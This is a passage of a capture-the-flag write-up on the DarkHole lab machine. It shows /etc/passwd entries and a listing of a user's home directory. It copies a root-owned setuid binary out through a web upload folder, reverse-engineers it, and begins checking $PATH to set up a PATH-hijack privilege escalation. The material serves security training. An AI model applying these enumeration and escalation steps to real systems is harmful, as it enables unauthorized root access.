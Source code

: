 ```
darkhole:x:1000:1000:john:/home/darkhole:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
john:x:1001:1001:,,,:/home/john:/bin/bash
```
We have two intersting users 'John' and 'darkhole' in there.

While searching around John’s home directory to see if we might happen to be able to add our own ssh keys, we notice that John also has a root owned binary called toto that has a sticky bit set:

```
www-data@darkhole:/home/john$ ls -la
total 72
drwxrwxrwx 5 john john      4096 Jul 17 22:16 .
drwxr-xr-x 4 root root      4096 Jul 16 09:58 ..
-rw------- 1 john john      1722 Jul 17 21:40 .bash_history
-rw-r--r-- 1 john john       220 Jul 16 09:58 .bash_logout
-rw-r--r-- 1 john john      3771 Jul 16 09:58 .bashrc
drwx------ 2 john john      4096 Jul 17 20:35 .cache
drwxrwxr-x 3 john john      4096 Jul 17 16:59 .local
-rw------- 1 john john        37 Jul 17 16:42 .mysql_history
-rw-r--r-- 1 john john       807 Jul 16 09:58 .profile
drwxrwx--- 2 john www-data  4096 Jul 17 21:08 .ssh
-rwxrwx--- 1 john john         1 Jul 17 21:27 file.py
-rwxrwx--- 1 john john         8 Jul 17 21:12 password
-rwsr-xr-x 1 root root     16784 Jul 17 20:22 toto
-rw-rw---- 1 john john        24 Jul 17 21:47 user.txt
```

We know that we have directory listing enabled on the /upload directory so we copy the binary there so that we can easily download it and do some offline reverse engineering:

```
www-data@darkhole:/home/john$ cp toto /var/www/html/upload
```
Download toto to your kali machine.
Running toto locally we can see it just outputs what looks like the same output as the command `id`

```
./toto       
uid=1001 gid=0(root) groups=0(root),141(kaboxer)
```
Opening the binary with a reversing tool such as Ghidra shows us that our suspicions are correct:

![Ghidra.png]({{site.baseurl}}/Images/vb-darkhole/Ghidra.png)

when we look at the $PATH variable we can see that the command `id` is coming from `/usr/bin/id`

```
www-data@darkhole:/$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```
```
www-data@darkhole:/$ which id
/usr/bin/id
```
